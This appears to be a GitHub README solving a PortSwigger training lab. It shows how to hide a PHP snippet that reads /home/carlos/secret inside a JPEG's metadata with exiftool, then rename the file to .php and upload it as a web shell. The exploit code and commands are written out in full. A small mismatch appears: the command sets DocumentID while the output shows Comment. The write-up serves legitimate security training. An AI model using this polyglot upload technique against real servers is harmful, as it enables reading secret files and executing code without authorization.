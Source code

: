 # Polyglot Payload PHP/JPEG

This polyglot payload is meant to solve the following PortSwigger lab:

https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload

Original Image Before Tampering:

![Orignal Photo Of Pug](./payload-in-metadata-original.jpg "Cute pug wrapped in a blanket")

PHP Payload:

```php
<?php
    echo 'hereiam ' . file_get_contents('/home/carlos/secret') . ' hereiam';
?>
```

Exiftool Command For Placing Payload In JPEG:

```
$ exiftool -DocumentID="<?php echo 'hereiam ' . file_get_contents('/home/carlos/secret') . ' hereiam' ;?>" payload-in-metadata.jpg
```

Example Output Of Metadata After Comment Added:

```
$ exiftool payload-in-metadata.jpg

File Name                       : payload-in-metadata.jpg
File Permissions                : -rw-rw-r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
Comment                         : <?php echo 'hereiam ' . file_get_contents('/home/carlos/secret') . ' hereiam';?>
Image Width                     : 640
Image Height                    : 426
```

Image After Payload Added:

![Image After PHP Payload Inserted](./payload-in-metadata.jpg "Pug Wrapped In Blanket, Payload Hidden In Metadata")

Image After Changing Extension To PHP:

[Image Ready For Upload](./payload-in-metadata.php "PHP Program Hidden In JPEG")
